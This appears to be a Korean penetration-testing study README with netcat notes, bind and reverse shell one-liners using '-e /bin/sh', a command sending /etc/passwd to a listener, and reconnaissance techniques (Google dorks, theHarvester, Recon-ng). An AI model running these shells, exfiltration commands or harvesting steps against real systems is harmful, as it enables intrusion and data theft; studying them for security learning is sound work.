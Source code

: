 # whitehacker
모의해킹 공부 리포 입니다

## 넷캣 (해킹의 맥가이버 역할)

1) nc -h : 기본옵션확인

2) nc -lvp 4444
l : 리스닝모드 서버로 동작
v: vervus 상태메세지 출력
p : 리스닝시 포트번호 설정

3) nc [로컬ip -> 클라이언트or공격대상?] [공격대상포트번호] : 공격대상에 접속

4) cat /etc/passwd : passwd파일 보기
passwd파일 : 사용자 정보 담겨있음


### “<“ , “>” 꺽새표시의 의미

-nc -lvp 4444 > passwd
4444로 들어오는 정보를 passwd로 전달

-nc -q 0 [로컬ip] [공격대상포트번호] < /etc/passwd
passwd파일의 정보를 클라이언트쪽으로 보내줌\
q : 한번실행하고 명령종료 (여기선 파일 보내고 종료)


## 원격으로 커맨드쉘 생성 (바인드쉘 vs 리버스쉘)
-둘이 나뉘는 이유 : “방화벽”
방화벽은 최전방에서 들어오는 접속을 막지만, 내부에서 외부로 나가는 접속을 막지는 않음. 그래서 리버스쉘을 사용한다.

-공통 : 둘다 공격대상의 쉘에서 -e /bin/sh 입력함

* 바인드쉘 : 타겟 쪽에 서버포트가 열리고 해커쪽에서 타겟으로 접속하여 생성시키는 쉘

(공격대상에서)
1. nc -lvp 4444 -e  /bin/sh
e : 접속이 되고나면 실행할 명령 입력

(우리쪽)

2. nc [로컬ip주소] [포트번호]
하고나면 공격대상 쉘에 접속

* 리버스쉘 : 우리쪽에서 포트를 열고 타겟쪽에서 우리쪽으로 접속시킴
리스닝은 우리쪽에서 하지만 결국엔 우리쪽에서 명령어 입력가능

(우리쪽)
1. nc -lvp [포트번호]

(공격대상)

2. nc [로컬ip] [포트번호] -e /bin/sh\

* sh 명령어
1. id : 사용자 계정정보 확인
2. ip addr : ip주소 확인
3. cat /etc/passwd : 사용자 정보 확인


## 패시브 스캐닝

패시브 스캐닝 : 이미 공개되어 있는 정보 알아냄


-구글 해킹 키워드 정리
* site [사이트주소] : 그 사이트에 대한 정보만 나옴\
추가로 -site [사이트주소] 이 사이트에 대한 정보 만 없음\
추가로 filetype pdf
* inurl:admin : 관리자페이지가 어느사이트 내에 존재하는 지 알수잇음
* intitle: “index of” 취약한 사이트의 디렉토리와 파일들이 의도치않게 공개되는 경우가 있음 그때 웹문서상의 제목이 index of가 됨\
추가로 pdf 붙이면 그 확장자의 파일들 검색 가능
* 추가로 명령어 조사해보기
* exploit-db.com 에서도 google hacking database 볼수있음


-netcraft 사이트 searchdns.netcraft.com
인터넷상의 운용되는 웹서버들에 대한 정보 수집
(언제부터, 서버의 버전 등등)
* [사이트주소] 검색하면 각 서브 도메인 정보얻을 수 있음

-whois 사이트 whois.kisa.or.kr/kor/main.jsp
도메인을 등록할 때의 주소나 담당자 등 정보수집
* [사이트주소 or ip주소]

-이메일 수집
공격대상의 이메일 주소를 알아내기
* 터미널에 theharvester -d [검색할 도메인 이름] -b [사용할 검색엔진]
그 도메인을 사용하는 메일들이나 서브 메일, ip주소까지 확인가능


-Recon-ng
* 터미널에 recon-ng 입력
help : 각종 명령어 나옴\
search : 모듈 위치 확인\
use [실행할 모듈 (위치포함)]

* 모듈
whois_pocs : whois 서버에 공개되어있는 정보확인
bing_domain_web 도메인정보 host

* 모듈 안에서 명령어\
show option : 어떤 거 설정해야 될지\
show info\
set SOURCE [바꿀소스(도메인)] : 소스바꿈\
run : 모듈 실행\
control + c : 종료\
show contacts : 수집한 이메일, 각종 정보 출력 (whois_pocs)
show hosts (bing_domain_web)
